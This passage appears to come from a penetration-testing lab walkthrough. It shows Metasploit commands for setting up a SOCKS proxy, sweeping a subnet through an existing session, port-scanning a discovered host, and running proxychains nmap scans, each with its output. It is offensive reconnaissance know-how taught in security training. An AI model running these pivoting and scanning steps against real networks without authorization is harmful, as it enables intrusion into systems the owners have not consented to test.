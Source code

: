 `search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `run`. [✓]

**Step 10**.

`search ping sweep`, `use post/multi/gather/ping_sweep`, `show options`, `set SESSION 2`, `set RHOSTS 192.180.99.0/24`, `run`: [✓]
```
[*] Performing ping sweep for IP range 192.180.99.0/24
[+]     192.180.99.1 host found
[+]     192.180.99.3 host found ←
[+]     192.180.99.2 host found
[*] Post module execution completed
```

`search portscan`, `use auxiliary/scanner/portscan/syn`, `show options`, `set RHOSTS 192.180.99.3`, `set PORTS 1-999`: [✗]
```
SIOCSIFFLAGS: Operation not permitted
```

`search portscan`, `use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS 192.180.99.3`, `set PORTS 1-999`: [✓]
```
[+] 192.180.99.3:         - 192.180.99.3:80 - TCP OPEN ←
[+] 192.180.99.3:         - 192.180.99.3:3306 - TCP OPEN ←
[*] 192.180.99.3:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`proxychains nmap -sS -sV 192.180.99.3 -p80,3306`: [✗]
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-11 16:47 IST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.33 seconds
```

`proxychains nmap -sS -sV 192.180.99.3 -p80,3306 -Pn`: [✗]
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-04-11 16:47 IST
Nmap scan report for 192-180-099-003.res.spectrum.com (192.180.99.3)
Host is up.

PORT     STATE    SERVICE VERSION
80/tcp   filtered http
3306/tcp filtered mysql

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
